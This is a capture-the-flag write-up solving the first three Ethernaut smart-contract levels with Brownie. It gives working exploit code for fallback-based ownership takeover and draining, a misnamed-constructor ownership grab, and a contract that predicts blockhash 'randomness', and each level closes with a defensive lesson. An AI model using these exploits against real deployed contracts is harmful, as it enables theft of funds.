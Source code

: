 # Ethernaut
## Setting up Environment
I used Brownie for my development environment. All soltuions are implemented as scripts in `/scripts` 
You will need to obtain an archive URL from Alchemy and create a new development network.
```
brownie networks add development rinkeby-fork cmd=ganache-cli host=http://127.0.0.1 fork=**ARCHIVE URL** accounts=10 mnemonic=brownie port=8545
```
### Setting up account
Brownie has an accounts package that lets you add your own account with your respective private key. To do this you can use the following command:
```
brownie accounts new [name]
```
You will then be prompted to add your private key and set a password to encrypt your private key. 
This is how you can load your account in your scripts: (this will prompt you to input your password)
```
account = accounts.load([name])
```
### Running scripts
First I ran my scripts locally to test my solutions. Then I ran my scripts live on Rinkeby to pass the levels.
```
# run scripts locally
brownie run scripts\fallout.py --network rinkeby-fork
# run scripts live on Rinkeby
brownie run scripts\fallout.py --network rinkeby
```
**Note: All attacker contracts can be found in their respective level's `.sol` file. I.e CoinFlipAttacker can be found in CoinFlip.sol**
## Level 1: Fallback
To beat this level we must claim ownership of the contract and then drain it. We need to become the owner and then we can call `withdraw()`, which has a modifier that only allows the current owner to call the function. 
There are two places where the owner variable can be modified:
1. In the contribute function
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
2. In the fallback function
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
The contribute function only lets us send less than 0.001 ether at a time and the owner variable gets modified only when our contributions are greater than the contributions of the current owner. The contributions of the current owner have been set to 1000 ether in the constructor:
```solidity
constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
```
Therefore, this method is not practical. Now we know that we need to trigger the fallback function in order to set ourselves as the owner.
The require statment in the fallback function checks that our transaction has a value greater than 0 and that our contributions are also greater than 0. We will need to call `contribute()` with an arbitrarily small amount of ether (at least less than 0.001) to satisfy this check.
```python
eth_amount = Web3.toWei("0.00001", "ether")
fallback.contribute({"from": account, "value": eth_amount}) 
```
Once we have called contribute we are now ready to trigger the fallback function. To do this we will execute a simple ether transfer to the contract. We can do this very easily with brownie:
```
account.transfer(fallback, "0.00001 ether")
```
We can check that we are now the owner of the contract:
```python
print(fallback.owner() == account.address)
```
All that is left to do is drain the contract. We will do this by calling `withdraw()`. We will pass the check in the `onlyOwner` modifier since we are now the current owner.
```python
fallback.withdraw({"from": account})
```
We have now successfully passed the level! 
This level shows us that anyone is able to call the fallback function of a contract and execute any code that is in said fallback function. Moral of the story: Be wary of putting code that modifiers sensitive state variables in your fallback function. 

## Level 2: Fallout
To pass this level we need to claim ownership of the contract. We can see that the owner variable only gets modified once in the constructor:
```solidity
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```
We can see that this constructor does not use the `constructor` keyword. Therefore, the name of the constructor function must match the name of the contract in order to be executed as a constructor. 
Note that since `Solidity v0.4.22` this method is now deprecated. Since this contract does not use the `constructor` keyword, the Fal1out function can be seen as any normal function. We can then call this function and become the owner of the contract.
```python
fallout.Fal1out({"from": account})
```
Now we can check that we are the owner of the contract:
```python
print(fallout.owner() == account.address)
```
We have successfully passed this level!
Moral of the story: Use the `constructor` keyword.

## Level 3: Coin Flip
To beat this level we need to call `flip()` with the correct guess 10 times. Every time we call `flip()` with the correct guess, we will increment the `consecutiveWins` state variable. An incorrect guess will set `consecutiveWins` back to 0.
```solidity
if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
```
Lets examine the rest of the function. 
The function first takes the blockhash of the previous block number and stores it in a variable of type uint256 called blockValue.
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```
Then it checks if the state variable `lastHash` is equal to `blockValue`, and will revert if it is
```solidity
if (lastHash == blockValue) {
      revert();
    }
```
If the above check does not resolve to True, then `lastHash` will be set to the value of `blockValue`. The next line sets a new variable named `coinFlip` equal to `blockValue` divided by the state variable `FACTOR`.
```solidity
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```
```solidity
lastHash = blockValue;
uint256 coinFlip = blockValue.div(FACTOR);
```
This next line may look confusing, but it is just a fancy `if statement`.
This:
```solidity
bool side = coinFlip == 1 ? true : false;
```
Is the same as this:
```solidity
if (coinFlip == 1) {
    return true;
} else {
    return false;
}
```
The return value of this if statement is stored in a variable called side. We already took a look at the last piece of code. If `side` is equal to `guess` then we will successfully increment `consecutiveWins`.
This level tries to create a game that relies on randomness. However, the deterministic nature of blockchains makes it impossible to produce a true random number in smart contracts. This contract uses `blockhash`, `block.number`, and a large number stored in `FACTOR` to compute a random boolean value. We know exactly how this contract computes this "random value" and therefore we can create a custom contract that computes the same value in the same way. 
Our contract: 
```solidity
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttacker {
    ICoinFlip public instance;

    constructor(address _instance) public {
        instance = ICoinFlip(_instance);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue /
            57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;

        instance.flip(side);
    }
}
```
Our contract will have an `attack()` function that will mimic the logic of the CoinFlip contract. `attack()` will compute the same boolean value that the CoinFlip contract computes since both transactions will be in the same block and `block.number - 1` will produce the same value. Once the answer is computed and stored in `side`, we can call `flip()` with `side` as an argument. This will ensure that our guess is in fact the right answer. We will repeat this 10 times:
```python
for i in range(10):
    CoinFlipAttacker.attack({"from": account})
```
We can check to see that we have called `flip()` will the correct guess 10 times:
```python
print(CoinFlip.consecutiveWins() == 10)
```
We have successfully passed the level! Moral of the story: Do not use `blockhash`, `block.number`, or any hardcoded values for random number generation. Note that although we created a custom contract to mimic the use of `blockhash` and `block.number`, those values can also be manipulated by miners. You are better off using oracle services for random number generation, such as `Chainlink VRF`.

